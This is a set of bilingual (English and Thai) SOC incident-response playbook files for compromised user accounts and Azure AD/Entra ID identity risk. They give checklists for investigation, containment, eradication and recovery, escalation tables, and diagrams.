### 1.2 Post-Login Activity Audit

| Activity | What to Check | Tool | Done |
|:---|:---|:---|:---:|
| **Email rules** | New forwarding rules, redirects, delegates | M365 / Google Admin | ☐ |
| **MFA changes** | New MFA device enrolled, backup codes generated | IdP audit log | ☐ |
| **OAuth consents** | New application authorized | Azure AD / Google | ☐ |
| **API keys** | New keys or tokens created | Cloud console | ☐ |
| **File access** | Unusual file downloads or sharing | DLP, Cloud audit | ☐ |
| **Admin actions** | Role changes, new accounts created | AD / IdP logs | ☐ |
| **Lateral movement** | RDP/SSH to other hosts | SIEM, EDR | ☐ |

### 1.3 Scope Assessment

- [ ] Is only one account affected, or multiple?
- [ ] Were any admin/service accounts compromised?
- [ ] Any data accessed or exfiltrated?
- [ ] How was the account compromised? (phishing, credential stuffing, leaked password)

---

## 2. Containment

### 2.1 Immediate Actions (within 10 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Disable account** in AD/IdP | AD / Okta / Azure AD | ☐ |
| 2 | **Revoke all sessions** — kill active tokens | IdP session management | ☐ |
| 3 | **Block source IP** at firewall (if external) | Firewall | ☐ |
| 4 | **Isolate endpoint** if device is involved | EDR | ☐ |

### 2.2 If Admin/VIP Account

| # | Additional Action | Done |
|:---:|:---|:---:|
| 1 | Review all admin actions taken during compromise window | ☐ |
| 2 | Check for new accounts or role assignments created by attacker | ☐ |
| 3 | Audit privileged group memberships | ☐ |
| 4 | Rotate service account credentials if accessed | ☐ |
| 5 | Notify CISO | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Reset password** to a strong, unique value | ☐ |
| 2 | **Reset MFA** — remove all devices, re-enroll with user verification | ☐ |
| 3 | Remove unauthorized email forwarding rules | ☐ |
| 4 | Revoke unauthorized OAuth/application consents | ☐ |
| 5 | Delete any API keys/tokens created during compromise | ☐ |
| 6 | Check for persistence: Azure AD app registrations, service principals | ☐ |
| 7 | If password was reused: notify user to change on all other services | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Re-enable account after password + MFA reset | ☐ |
| 2 | Add user to "High Risk" monitoring group for 48 hours | ☐ |
| 3 | Verify user can access normally from expected location | ☐ |
| 4 | Send targeted awareness note to affected user | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Attacker IP | | SIEM / IdP |
| Attacker GeoLocation | | GeoIP |
| User-Agent string | | IdP logs |
| Compromised account | | Alert |
| Attacker actions | | Audit log |
| Data accessed | | DLP / Cloud audit |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Admin/service account compromised | SOC Lead + CISO |
| Multiple accounts compromised | Major Incident |
| Data exfiltration confirmed | [PB-08](Data_Exfiltration.en.md) + Legal |
| Part of credential stuffing campaign | Threat Intel team |
| Phishing was the entry vector | Cross-reference [PB-01](Phishing.en.md) |

---

## 7. Post-Incident

- [ ] Review authentication policies (enforce MFA for all accounts)
- [ ] Update Conditional Access policies based on attack vector
- [ ] Implement sign-in risk policies (Azure AD / Okta)
- [ ] Review and revoke stale OAuth app consents
- [ ] Enforce password complexity and expiration policies
- [ ] Create Sigma rule for observed credential abuse patterns
- [ ] Conduct phishing simulation if phishing was the entry vector
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Post-Compromise Activity Check

```mermaid
graph TD
    Compromise["🔴 Account Compromised"] --> Email["📧 Inbox rules?"]
    Compromise --> OAuth["🔑 OAuth apps?"]
    Compromise --> MFA["📱 MFA changed?"]
    Compromise --> Data["📁 Data accessed?"]
    Email --> Clean["🧹 Remove"]
    OAuth --> Clean
    MFA --> Reset["🔄 Reset MFA"]
    Data --> DLP["📊 DLP report"]
    style Compromise fill:#e74c3c,color:#fff
```

### Identity Protection Layers

```mermaid
graph LR
    User["👤 User"] --> MFA2["📱 MFA"]
    MFA2 --> CA["🛡️ Conditional Access"]
    CA --> PIM["🔑 PIM"]
    PIM --> PAM["🏰 PAM"]
    PAM --> Monitor["👁️ UEBA"]
    style MFA2 fill:#3498db,color:#fff
    style CA fill:#27ae60,color:#fff
    style PAM fill:#f39c12,color:#fff
    style Monitor fill:#e74c3c,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |
| Multiple Failed Login Attempts | [win_multiple_failed_logins.yml](../../08_Detection_Engineering/sigma_rules/win_multiple_failed_logins.yml) |
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-01 Phishing](Phishing.en.md)
- [PB-04 Brute Force](Brute_Force.en.md)
- [PB-06 Impossible Travel](Impossible_Travel.en.md)

## References

- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [CISA Account Security](https://www.cisa.gov/secure-our-world)
- [NIST SP 800-63 — Digital Identity Guidelines](https://pages.nist.gov/800-63-3/)


---

## File: 05_Incident_Response/Playbooks/Account_Compromise.th.md

# Playbook: บัญชีถูกบุกรุก (Account Compromise)

**ID**: PB-05
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: Identity & Access
**MITRE ATT&CK**: [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts), [T1110](https://attack.mitre.org/techniques/T1110/) (Brute Force)
**ทริกเกอร์**: Identity Protection alert, SIEM (impossible travel, anomalous activity), leaked credential alert, ผู้ใช้รายงาน

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Account Compromise"] --> Source{"📋 แหล่งที่มา?"}
    Source -->|Credential Leak| Leak["💧 ตรวจ Dark Web"]
    Source -->|Brute Force| BF["🔑 Login สำเร็จ?"]
    Source -->|Phishing| Phish["📧 AiTM / Token Theft?"]
    Source -->|Insider Report| Report["👤 User ไม่ได้ Login"]
    Leak --> Reset["🔐 Force Reset"]
    BF -->|ใช่| Investigate["🔎 ตรวจกิจกรรม"]
    BF -->|ไม่| Block["🔒 Block IP"]
    Phish --> Investigate
    Report --> Investigate
    Investigate --> Impact{"📊 กิจกรรมผิดปกติ?"}
    Impact -->|ข้อมูลถูกเข้าถึง| Data["🔴 Legal + DPO"]
    Impact -->|Inbox rules สร้าง| BEC["🔴 BEC Investigation"]
    Impact -->|ไม่มีกิจกรรม| Contain["🟠 Reset + Monitor"]
```

---

## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวนนโยบาย authentication (บังคับ MFA ทุกบัญชี)
- [ ] อัพเดท Conditional Access policies ตาม attack vector
- [ ] ใช้ sign-in risk policies (Azure AD / Okta)
- [ ] ตรวจสอบและเพิกถอน OAuth app consents ที่ค้าง
- [ ] สร้าง Sigma rule สำหรับรูปแบบ credential abuse ที่พบ
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)


## 1. การวิเคราะห์

### 1.1 ตัวบ่งชี้การบุกรุกบัญชี

| ตัวบ่งชี้ | วิธีตรวจสอบ | ความรุนแรง |
|:---|:---|:---|
| **Login จาก IP/ประเทศผิดปกติ** | Sign-in logs / GeoIP | 🟠 สูง |
| **MFA ถูกปิดหรือเปลี่ยน** | IdP audit logs | 🔴 วิกฤต |
| **Inbox forwarding rules** สร้างใหม่ | Exchange audit | 🔴 สูง |
| **OAuth apps** ถูก consent | Enterprise Apps | 🔴 สูง |
| **Credential ใน breach database** | Have I Been Pwned / TI | 🟠 สูง |
| **Password spray สำเร็จ** | SIEM (Event 4624 after 4625s) | 🔴 สูง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| บัญชีที่ได้รับผลกระทบ (+role/privileges) | IdP | ☐ |
| Sign-in details (IP, device, client app, MFA method) | Sign-in logs | ☐ |
| Credential source (leak, phishing, brute force) | TI / SIEM | ☐ |
| กิจกรรมหลัง login (files accessed, emails sent) | Cloud audit | ☐ |
| Inbox rules / forwarding สร้างใหม่? | Exchange audit | ☐ |
| OAuth apps ถูก consent? | Enterprise Apps | ☐ |
| MFA methods เปลี่ยน? | IdP audit | ☐ |
| มีบัญชีอื่นถูกบุกรุกด้วย? (same password) | SIEM pivot | ☐ |
| ข้อมูลอะไรถูกเข้าถึง? | File audit / DLP | ☐ |

### 1.3 กิจกรรมหลังบุกรุก (Post-Compromise)

| กิจกรรม | ตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ดาวน์โหลดข้อมูลจาก SharePoint/OneDrive | Cloud audit | ☐ |
| ส่งอีเมลไปยัง external (BEC attempt) | Message trace | ☐ |
| สร้าง inbox rules (auto-delete/forward) | Get-InboxRule | ☐ |
| เพิ่ม delegates/permissions | Get-MailboxPermission | ☐ |
| consent OAuth app (Mail.Read/Send) | Enterprise Apps | ☐ |
| Password/MFA เปลี่ยน | IdP audit | ☐ |
| เข้าถึง VPN/internal applications | VPN/App logs | ☐ |

### วงจรชีวิตการบุกรุกบัญชี

```mermaid
graph LR
    Cred["🔑 ได้ Credential"] --> Login["🔓 Login"]
    Login --> Persist["⚙️ สร้าง Persistence"]
    Persist --> Pivot["🔀 Pivot / BEC"]
    Pivot --> Exfil["📤 Exfiltrate Data"]
    style Cred fill:#e74c3c,color:#fff
    style Login fill:#f39c12,color:#fff
    style Persist fill:#e67e22,color:#fff
    style Pivot fill:#8e44ad,color:#fff
    style Exfil fill:#c0392b,color:#fff
```

### ผังขั้นตอนการตอบสนอง

```mermaid
sequenceDiagram
    participant IdP
    participant SOC
    participant User as ผู้ใช้
    participant Exchange
    IdP->>SOC: 🚨 Risk detection
    SOC->>IdP: Revoke all sessions
    SOC->>IdP: Reset password
    SOC->>User: ☎️ ยืนยันตัวตน (โทรศัพท์)
    SOC->>Exchange: ตรวจ inbox rules
    Exchange-->>SOC: พบ forwarding rule!
    SOC->>Exchange: ลบ malicious rules
    SOC->>IdP: Re-register MFA
```

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **รีเซ็ตรหัสผ่าน** ทันที (out-of-band) | IdP admin | ☐ |
| 2 | **เพิกถอน sessions** และ refresh tokens ทั้งหมด | IdP admin | ☐ |
| 3 | **ลบ inbox forwarding rules** ที่อันตราย | Exchange admin | ☐ |
| 4 | **ลบ OAuth apps** ที่ไม่ได้รับอนุมัติ | Enterprise Apps | ☐ |
| 5 | **Block** source IP ที่ firewall/proxy | Security tools | ☐ |
| 6 | **ตรวจ** shared/similar passwords กับบัญชีอื่น | Password audit | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลงทะเบียน **MFA ใหม่** (FIDO2/passkeys ถ้าเป็นไปได้) | ☐ |
| 2 | ลบ delegates/permissions ที่เพิ่มมา | ☐ |
| 3 | ลบ app registrations / credentials ที่สร้างระหว่างโจมตี | ☐ |
| 4 | ตรวจว่า attacker ส่งอีเมลหลอกจากบัญชีนี้ → แจ้ง recipients | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เปิด **Credential Leak Monitoring** (dark web) | ☐ |
| 2 | บังคับ **Phishing-resistant MFA** (FIDO2/passkeys) | ☐ |
| 3 | เปิด **CAE** (Continuous Access Evaluation) | ☐ |
| 4 | บังคับ **Password Complexity** + ห้ามใช้ซ้ำ | ☐ |
| 5 | ใช้ **Conditional Access** (location, device compliance) | ☐ |
| 6 | **Security awareness training** สำหรับ phishing | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Admin/privileged account | CISO ทันที |
| BEC indicators (inbox rules + financial requests) | [PB-17 BEC](BEC.th.md) |
| ข้อมูลสำคัญถูกเข้าถึง/ดาวน์โหลด | [PB-08 Data Exfil](Data_Exfiltration.th.md) + Legal |
| Token theft / AiTM | [PB-26 MFA Bypass](MFA_Bypass.th.md) |
| หลายบัญชีถูกบุกรุก (same campaign) | Major Incident |
| Lateral movement ตรวจพบ | [PB-09 Lateral Movement](Lateral_Movement.th.md) |

---

### ผัง Post-Compromise Activity Check

```mermaid
graph TD
    Compromise["🔴 Account Compromised"] --> Email["📧 Inbox rules?"]
    Compromise --> OAuth["🔑 OAuth apps?"]
    Compromise --> MFA["📱 MFA changed?"]
    Compromise --> Data["📁 Data accessed?"]
    Email --> Clean["🧹 Remove"]
    OAuth --> Clean
    MFA --> Reset["🔄 Reset MFA"]
    Data --> DLP["📊 DLP report"]
    style Compromise fill:#e74c3c,color:#fff
```

### ผัง Identity Protection Layers

```mermaid
graph LR
    User["👤 User"] --> MFA["📱 MFA"]
    MFA --> CA["🛡️ Conditional Access"]
    CA --> PIM["🔑 PIM"]
    PIM --> PAM["🏰 PAM"]
    PAM --> Monitor["👁️ UEBA"]
    style MFA fill:#3498db,color:#fff
    style CA fill:#27ae60,color:#fff
    style PAM fill:#f39c12,color:#fff
    style Monitor fill:#e74c3c,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |
| Multiple Failed Login Attempts | [win_multiple_failed_logins.yml](../../08_Detection_Engineering/sigma_rules/win_multiple_failed_logins.yml) |
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-04 Brute Force](Brute_Force.th.md)
- [PB-01 ฟิชชิง](Phishing.th.md)

## Account Compromise Assessment

| Indicator | Source | Severity |
|:---|:---|:---|
| Login from new location | Azure AD/SIEM | Medium |
| MFA bypass detected | Auth logs | Critical |
| Password changed unexpectedly | AD audit | High |
| New inbox rules | Exchange/M365 | High |
| Mass email sent | Email gateway | Medium |

### Recovery Steps

| Step | Action | Verification |
|:---|:---|:---|
| 1 | Reset password | Confirm with user |
| 2 | Revoke all sessions | Check active sessions |
| 3 | Re-enroll MFA | Verify new device |
| 4 | Review inbox rules | Remove malicious |
| 5 | Check OAuth apps | Revoke suspicious |

## อ้างอิง

- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)


---

## File: 05_Incident_Response/Playbooks/Azure_AD_Compromise.en.md

# Playbook: Azure AD / Entra ID Identity Risk

**ID**: PB-23
**Severity**: High/Critical | **Category**: Cloud Identity
**MITRE ATT&CK**: [T1078.004](https://attack.mitre.org/techniques/T1078/004/) (Cloud Accounts), [T1556](https://attack.mitre.org/techniques/T1556/) (Modify Authentication Process)
**TLP**: AMBER
**Trigger**: Azure AD Identity Protection, Sentinel alert, Conditional Access failure, Audit log anomaly

### Identity Protection Pipeline

```mermaid
graph LR
    Signal["📡 Risk Signal"] --> RiskEngine["🔍 Risk Engine"]
    RiskEngine --> UserRisk{"👤 User Risk?"}
    UserRisk -->|Low| Monitor["👁️ Monitor"]
    UserRisk -->|Medium| MFA["📱 Require MFA"]
    UserRisk -->|High| Block["🔒 Block + Reset"]
    style Signal fill:#3498db,color:#fff
    style Block fill:#e74c3c,color:#fff
    style MFA fill:#f39c12,color:#fff
```

### PIM Activation Flow

```mermaid
sequenceDiagram
    participant Admin
    participant PIM as Azure PIM
    participant Approver
    participant SOC
    Admin->>PIM: Request Global Admin role
    PIM->>Approver: 📧 Approval required
    Approver->>PIM: ✅ Approve (with justification)
    PIM->>Admin: Role active for 2 hours
    PIM->>SOC: 📋 Audit log entry
    Note over PIM: ⏳ Auto-deactivate after TTL
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Azure AD Identity Risk"] --> Risk{"📊 Risk Level?"}
    Risk -->|High / Confirmed Compromised| High["🔴 Immediate Response"]
    Risk -->|Medium / At Risk| Medium["🟠 Investigate"]
    Risk -->|Low / Dismissed| Low["🟡 Monitor"]
    High --> Contact["📞 Out-of-Band User Contact"]
    Medium --> Contact
    Contact -->|User Confirms Activity| Legit["✅ Dismiss Risk"]
    Contact -->|User Denies / Unreachable| Compromised["🔴 Confirmed Compromise"]
    Compromised --> Revoke["🔒 Revoke + Reset + Investigate"]
```

---

## 1. Analysis

### 1.1 Azure AD Risk Detection Types

| Risk Detection | Severity | Description |
|:---|:---|:---|
| **Unfamiliar sign-in properties** | Medium | Login from new device, location, IP |
| **Impossible travel** | Medium | Logins from distant locations in short time |
| **Anonymous IP address** | Medium | Login from Tor / VPN / proxy |
| **Malware-linked IP** | High | IP associated with malware C2 |
| **Leaked credentials** | High | Credentials found in breach dump |
| **Token issuer anomaly** | High | Token from unusual issuer |
| **Anomalous token** | High | Token with suspicious claims |
| **MFA fatigue** | High | Repeated MFA denials then accept |
| **Suspicious inbox manipulation** | High | Forwarding rules after risky sign-in |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Contact user via out-of-band channel (call / Slack) | "Did you just login from [location]?" | ☐ |
| Review Azure AD Sign-in Logs | Portal → Azure AD → Sign-in logs | ☐ |
| Check device compliance status | Was device Compliant / Hybrid Joined? | ☐ |
| Review failed attempts before success | Indicating brute force → compromise | ☐ |
| Check MFA prompt history | Was MFA prompted and passed/bypassed? | ☐ |
| Review Conditional Access results | Which policies applied/failed | ☐ |
| Check for risky sign-ins from same IP | Other accounts targeted? | ☐ |

### 1.3 Post-Compromise Activity

| Activity | Location | Done |
|:---|:---|:---:|
| Inbox forwarding rules created | Exchange Admin → Mail flow rules | ☐ |
| OAuth app consents granted | Enterprise Apps → User consent | ☐ |
| MFA method changes | Authentication methods | ☐ |
| Password self-service reset | Directory audit logs | ☐ |
| File downloads | SharePoint / OneDrive audit | ☐ |
| Admin role assignments | Azure AD roles audit | ☐ |
| Teams / SharePoint access | M365 audit logs | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | How | Done |
|:---:|:---|:---|:---:|
| 1 | **Revoke all sessions** | Azure Portal → Users → [User] → "Revoke Sessions" | ☐ |
| 2 | **Reset password** | Azure AD / on-prem AD sync | ☐ |
| 3 | **Block sign-in** (if active threat) | Azure Portal → Users → [User] → Block Sign-in | ☐ |
| 4 | **Confirm user risk** in Identity Protection | Mark as "confirmed compromised" | ☐ |
| 5 | **Block attacker IP** in Named Locations or Conditional Access | Azure AD CA | ☐ |

### 2.2 If MFA Bypass Detected

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove ALL registered MFA methods | ☐ |
| 2 | Re-register MFA using phishing-resistant method (FIDO2) | ☐ |
| 3 | Block legacy authentication protocols | ☐ |
| 4 | Enable number matching for push MFA | ☐ |
| 5 | Check for AiTM phishing → [PB-26](MFA_Bypass.en.md) | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove malicious OAuth app consents | ☐ |
| 2 | Delete inbox forwarding rules / delegates | ☐ |
| 3 | Remove attacker-registered MFA methods | ☐ |
| 4 | Revert any permission/role changes | ☐ |
| 5 | Scan user's endpoint for malware | ☐ |
| 6 | Delete phishing emails from mailbox if applicable | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Unblock sign-in** after verification from clean device | ☐ |
| 2 | **Dismiss user risk** in Identity Protection | ☐ |
| 3 | Enforce Conditional Access: compliant device required | ☐ |
| 4 | Enable Continuous Access Evaluation (CAE) | ☐ |
| 5 | Enable risk-based Conditional Access policies | ☐ |
| 6 | Monitor account for 48 hours via Identity Protection | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Risky sign-in IP | | Azure AD Sign-in logs |
| Attacker geolocation | | IP geolocation |
| Risk detection type | | Identity Protection |
| Device used (non-compliant) | | Sign-in details |
| OAuth app ID (malicious) | | Enterprise Apps |
| Inbox rules created | | Exchange audit |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Global Admin / Privileged role compromised | CISO immediately |
| Multiple users compromised from same IP | Major Incident |
| MFA bypass confirmed | [PB-26 MFA Bypass](MFA_Bypass.en.md) + CISO |
| Data exfiltration from compromised session | Legal + DPO (PDPA 72h) |
| Leaked credentials from breach dump | Org-wide password reset assessment |
| BEC follow-up from compromised account | [PB-17 BEC](BEC.en.md) |

---

## Root Cause Analysis (VERIS)

| Field | Value |
|:---|:---|
| **Actor** | External |
| **Action** | Hacking / Social |
| **Asset** | Person / Cloud Identity |
| **Attribute** | Integrity / Confidentiality |

---

### Entra ID Security Stack

```mermaid
graph TD
    EntraID["🔐 Entra ID"] --> IdP["🛡️ Identity Protection"]
    EntraID --> CA["📋 Conditional Access"]
    EntraID --> PIM["🔑 PIM"]
    EntraID --> AccessReview["👁️ Access Review"]
    IdP --> SIEM["📊 Sentinel"]
    CA --> SIEM
    PIM --> SIEM
    style EntraID fill:#3498db,color:#fff
    style SIEM fill:#e74c3c,color:#fff
```

### Audit Log Analysis

```mermaid
sequenceDiagram
    participant SOC
    participant AuditLog as Entra Audit Log
    participant Sentinel
    SOC->>AuditLog: Query: new app registrations
    AuditLog-->>SOC: 3 suspicious apps
    SOC->>AuditLog: Query: role assignments
    AuditLog-->>SOC: Global Admin added!
    SOC->>Sentinel: Create hunting query
    Sentinel->>SOC: 🚨 Correlated alert
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Azure AD Risky Sign-in | [cloud_azure_risky_signin.yml](../../08_Detection_Engineering/sigma_rules/cloud_azure_risky_signin.yml) |
| Impossible Travel | [cloud_impossible_travel.yml](../../08_Detection_Engineering/sigma_rules/cloud_impossible_travel.yml) |
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-06 Impossible Travel](Impossible_Travel.en.md)
- [PB-17 BEC](BEC.en.md)
- [PB-26 MFA Bypass](MFA_Bypass.en.md)

## References

- [Azure AD Identity Protection](https://learn.microsoft.com/en-us/entra/id-protection/overview-identity-protection)
- [Remediate Risks and Unblock Users](https://learn.microsoft.com/en-us/entra/id-protection/howto-identity-protection-remediate-unblock)
- [Microsoft Incident Response Playbooks](https://learn.microsoft.com/en-us/security/operations/incident-response-overview)


---

## File: 05_Incident_Response/Playbooks/Azure_AD_Compromise.th.md

# Playbook: Azure AD / Entra ID Compromise

**ID**: PB-23
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: Identity & Access
**MITRE ATT&CK**: [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation), [T1556](https://attack.mitre.org/techniques/T1556/) (Modify Authentication Process)
**ทริกเกอร์**: Identity Protection risk alert, Conditional Access failure, Unified Audit Log anomaly, Sentinel alert


## หลังเหตุการณ์ (Post-Incident)

- [ ] ตรวจสอบ Entra ID Conditional Access policies
- [ ] ใช้ Phishing-resistant MFA (FIDO2/passkeys)
- [ ] ทบทวน PIM role assignments
- [ ] เปิด Identity Protection risk policies
- [ ] ตรวจ service principal credentials ทั้งหมด
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Identity Protection Pipeline

```mermaid
graph LR
    SignIn["🔑 Sign-in"] --> ML["🤖 ML Engine"]
    ML --> Risk{"⚠️ Risk Level?"}
    Risk -->|Low| Allow["✅ Allow"]
    Risk -->|Medium| MFA["🔐 Require MFA"]
    Risk -->|High| Block["❌ Block + Alert SOC"]
    style SignIn fill:#3498db,color:#fff
    style ML fill:#9b59b6,color:#fff
    style Block fill:#e74c3c,color:#fff
    style Allow fill:#27ae60,color:#fff
```

### ผังขั้นตอน PIM Activation

```mermaid
sequenceDiagram
    participant Admin
    participant PIM
    participant Approver
    participant AzureAD as Azure AD
    Admin->>PIM: ขอ activate Global Admin
    PIM->>Approver: 📧 ขออนุมัติ
    Approver-->>PIM: ✅ อนุมัติ
    PIM->>AzureAD: Activate role (2 ชม.)
    Note over AzureAD: ⏳ Role active 2 ชม.
    AzureAD->>PIM: Role expired
    PIM->>Admin: 📧 สิทธิ์หมดอายุ
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Azure AD Risk Alert"] --> Type{"⚙️ ประเภท?"}
    Type -->|Account Compromise| Acc["👤 บัญชีถูกบุกรุก"]
    Type -->|OAuth Consent Phishing| OAuth["🔗 Malicious App Consent"]
    Type -->|GA/Admin Abuse| GA["👑 Global Admin ผิดปกติ"]
    Type -->|Federation Abuse| Fed["🏛️ Trusted Domain เพิ่ม"]
    Acc --> Session["🔒 เพิกถอน Sessions"]
    OAuth --> Revoke["❌ ลบ App Consent"]
    GA --> Emergency["🔴 Break-glass Procedure"]
    Fed --> Emergency
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทความเสี่ยง (Identity Protection)

| ประเภท | ตัวบ่งชี้ | ความรุนแรง |
|:---|:---|:---|
| **Unfamiliar sign-in** | IP/Location ใหม่ | 🟡 ปานกลาง |
| **Atypical travel** | Impossible travel | 🟠 สูง |
| **Anomalous token** | Token ผิดปกติ (replay) | 🔴 สูง |
| **Malware linked IP** | IP ที่เชื่อมกับ malware | 🔴 สูง |
| **Leaked credentials** | Found in breach data | 🔴 สูง |
| **Consent phishing** | OAuth app ที่อันตราย | 🔴 สูง |
| **GA sign-in** | Global Admin login | 🔴 สูง |
| **Federation change** | เพิ่ม trusted domain | 🔴 วิกฤต |
| **MFA manipulation** | เปลี่ยน/ลบ MFA methods | 🔴 สูง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| บัญชีที่ได้รับผลกระทบ (+role/privileges) | Azure AD Portal | ☐ |
| Sign-in details (IP, device, client app) | Sign-in logs | ☐ |
| Risk detections ทั้งหมด | Identity Protection | ☐ |
| Role assignments ที่เปลี่ยน | Audit logs | ☐ |
| OAuth consents ใหม่ (Enterprise Applications) | Enterprise Apps | ☐ |
| App registrations ใหม่ | App registrations | ☐ |
| Conditional Access evaluation results | Sign-in logs | ☐ |
| MFA methods ที่เปลี่ยน | Authentication methods | ☐ |
| Inbox rules/delegates ที่สร้าง | Exchange audit | ☐ |

### 1.3 กิจกรรมหลังถูกบุกรุก

| กิจกรรม | ตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| สร้าง/แก้ไข App Registration | Audit logs | ☐ |
| เพิ่ม credentials ให้ Service Principal | Audit logs | ☐ |
| เปลี่ยน Role assignments | Directory audit | ☐ |
| consent OAuth app | Enterprise Apps | ☐ |
| สร้าง inbox forwarding rule | Exchange audit | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **เพิกถอน sessions** ทั้งหมด (Revoke-AzureADUserAllRefreshToken) | Azure AD | ☐ |
| 2 | **รีเซ็ตรหัสผ่าน** ผ่านช่องทาง out-of-band | Azure AD | ☐ |
| 3 | **ปิดบัญชี** ชั่วคราว (Block sign-in) | Azure AD | ☐ |
| 4 | **ลบ OAuth apps** ที่อันตราย | Enterprise Apps | ☐ |
| 5 | **กู้คืน role assignments** ที่ถูกเปลี่ยน | Azure AD | ☐ |
| 6 | **ลบ App Registration** + credentials ที่สร้างใหม่ | Azure AD | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ล้างและลงทะเบียน **MFA ใหม่** (FIDO2/passkeys) | ☐ |
| 2 | ลบ inbox rules / forwarding / delegates | ☐ |
| 3 | ลบ Service Principal credentials ที่ผู้โจมตีสร้าง | ☐ |
| 4 | หาก federation abuse → ลบ trusted domain ที่เพิ่ม | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | บังคับ **FIDO2/passkeys** สำหรับ admins | ☐ |
| 2 | เปิด **PIM** (Privileged Identity Management) | ☐ |
| 3 | ตรวจสอบ **Conditional Access policies** | ☐ |
| 4 | เปิด **CAE** (Continuous Access Evaluation) | ☐ |
| 5 | จำกัด **admin consent workflow** | ☐ |
| 6 | ติดตาม 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Global Admin ถูกบุกรุก | CISO + Major Incident |
| Federation abuse (trusted domain เพิ่ม) | CISO + Microsoft support |
| ข้อมูลถูกนำออก | Legal + DPO (PDPA 72 ชม.) |
| หลายบัญชีถูกบุกรุก | Major Incident |
| BEC follow-up | [PB-17 BEC](BEC.th.md) |

---

### ผัง Entra ID Security Stack

```mermaid
graph TD
    EntraID["🔐 Entra ID"] --> IdP["🛡️ Identity Protection"]
    EntraID --> CA["📋 Conditional Access"]
    EntraID --> PIM["🔑 PIM"]
    EntraID --> AccessReview["👁️ Access Review"]
    IdP --> SIEM["📊 Sentinel"]
    CA --> SIEM
    PIM --> SIEM
    style EntraID fill:#3498db,color:#fff
    style SIEM fill:#e74c3c,color:#fff
```

### ผัง Audit Log Analysis

```mermaid
sequenceDiagram
    participant SOC
    participant AuditLog as Entra Audit Log
    participant Sentinel
    SOC->>AuditLog: Query: new app registrations
    AuditLog-->>SOC: 3 suspicious apps
    SOC->>AuditLog: Query: role assignments
    AuditLog-->>SOC: Global Admin added!
    SOC->>Sentinel: Create hunting query
    Sentinel->>SOC: 🚨 Correlated alert
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
